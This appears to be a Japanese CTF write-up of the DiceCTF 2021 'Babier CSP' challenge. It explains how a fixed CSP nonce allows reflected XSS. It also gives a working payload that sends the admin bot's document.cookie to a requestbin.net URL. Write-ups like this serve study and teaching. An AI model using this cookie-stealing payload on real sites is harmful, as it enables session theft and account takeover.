 ```yaml
---
title: "DiceCTF 2021 - Babier CSP"
emoji: "🦁"
type: "tech" # tech: 技術記事 / idea: アイデア
topics: ["CTF", "Web", "Easy"]
published: true
---
```


## 問題概要

> [Baby CSP](https://2020.justctf.team/challenges/14) was too hard for us, try Babier CSP.
> [babier-csp.dicec.tf](https://babier-csp.dicec.tf/)
> [Admin Bot](https://us-east1-dicegang.cloudfunctions.net/ctf-2021-admin-bot?challenge=babier-csp)
> The admin will set a cookie `secret` equal to `config.secret` in index.js.
> Downloads
> [index.js](https://dicegang.storage.googleapis.com/uploads/12b7c924573d906f2f6abfd5b43618e56c81e1e72fd875a39cfa9cbe0a38a4c5/index.js)

XSSだ！と見た瞬間分かるやつです。が、そこからがCSPの始まり。

## 解説
### CSPを破ってXSSする
urlParamとして`name`に与えた箇所がそのままDOMとして入るので、`name=<script>alert("XSS");</script>`等と入れるとスクリプトタグが挿入されます。が、実行されません。

それもそのはずで、Response Headerを見ると`content-security-policy: default-src none; script-src: 'nonce-xxxx';`という項目があります。ざっくりと説明すると、「scriptタグを動かすにはnonceがヘッダにある内容と一致してないとブラウザが動かさないよ！」というものです。実際にhtml上にあるonclickのscriptには正しいnonceがセットされています。admin botがリンクを踏むスタイルなので当然nonceを無効化することは出来ません。

サーバーのexpressプログラムを見たり、何度か更新をかけてnonceを見てみると、「nonceが固定値である」という脆弱性に気づきます。なら、`name=<script nonce=xxxx>alert("XSS");</script>`なら動く？動きました。

### admin botのcookieを読み取る
admin botのcookieの中身が欲しいのですが、CORS制限でfetch等は使えません。ということで、リダイレクトをして[requestbin.net](requestbin.net)に飛ばします。以下使用したpayloadです。

```js
https://babier-csp.dicec.tf?name=<script nonce=????>
document.location.href = "http://requestbin.net/r/xxxxx?flag=" + document.cookie;
</script>
```

requestbin.netはHTTPサーバーを立ててそこにリクエストがあった際のデータを収集することが出来ます。今回はパラメータとしてflag=[cookie]としており、これも取得することが出来ます。

